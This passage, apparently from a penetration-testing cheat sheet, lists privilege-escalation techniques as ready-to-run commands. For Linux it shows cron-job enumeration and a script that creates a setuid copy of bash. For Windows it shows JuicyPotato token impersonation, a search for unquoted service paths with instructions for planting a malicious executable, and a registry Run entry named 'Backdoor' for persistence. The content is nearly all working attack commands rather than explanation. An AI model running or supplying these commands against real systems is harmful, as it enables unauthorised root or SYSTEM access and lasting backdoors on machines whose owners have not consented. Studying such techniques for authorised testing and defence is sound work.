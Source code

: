 **Cron Job Exploitation:**
```bash
# Enumerate cron jobs
cat /etc/crontab
ls -la /etc/cron.*
crontab -l

# Check for writable scripts in cron jobs
find /etc/cron* -type f -writable 2>/dev/null

# Example: Exploiting writable cron script
echo '#!/bin/bash' > /tmp/exploit.sh
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' >> /tmp/exploit.sh
# If cron script includes /tmp/exploit.sh or is writable
```

**2. Windows Privilege Escalation**

**Token Impersonation:**
```powershell
# Check current privileges
whoami /priv

# Enable specific privileges
.\EnableAllTokenPrivs.exe

# Token impersonation attack
# If SeImpersonatePrivilege is enabled
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami > c:\temp\whoami.txt" -t *
```

**Unquoted Service Path Exploitation:**
```powershell
# Find services with unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Example vulnerable service path:
# C:\Program Files\Vulnerable Service\service.exe
# Create malicious executable at:
# C:\Program.exe or C:\Program Files\Vulnerable.exe

# PowerShell to find and exploit
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notlike '*"*' -and $_.PathName -like '* *'} | Select Name, PathName
```

**Registry Autorun Exploitation:**
```powershell
# Check autorun locations
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Add malicious autorun entry (if writable)
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\temp\backdoor.exe"
```
